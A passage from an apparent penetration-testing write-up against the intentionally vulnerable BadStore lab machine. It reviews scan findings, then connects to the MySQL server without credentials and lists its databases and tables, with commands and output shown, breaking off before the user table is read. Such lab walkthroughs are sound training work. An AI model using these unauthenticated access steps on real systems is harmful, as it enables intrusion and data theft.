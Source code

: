 Wow, we just got a ton of info. Notice __SSLv2 supported__ on the 443/tcp scan. This was causing our issues before, while we can deep dive this a viable attack vector requires a third party, we'll skip this for know but take a note of it for reporting. A key thing to notice is the robots.txt disclosure as this can be used to further enumerate the system. The mysql scan also has some area that give us food for thought.

## Quick Strike

The issues on this box are beginning to stack up, so much so that I'm hopeful for a quick smash and grab here. Lets kick it up a notch and go all offensive.

First we try log into the mysql server:
```bash
# mysql remote connect to ip (no creds)
mysql -h 192.168.56.101
```
This returns a connection:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 4.1.7-standard

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
Lets see the dBs:
``` mysql
show databases;
```
Gives us:
+------------+
| Database   |
+------------+
| badstoredb |
+------------+
1 row in set (0.001 sec)

```
Ok, lets use this dB and show all the tables:

```
use  badstoredb; show tables;
```
Returns:
```
Database changed
+----------------------+
| Tables_in_badstoredb |
+----------------------+
| acctdb               |
| itemdb               |
| orderdb              |
| userdb               |
+----------------------+
4 rows in set (0.000 sec)
```

lets check out the userdb:
```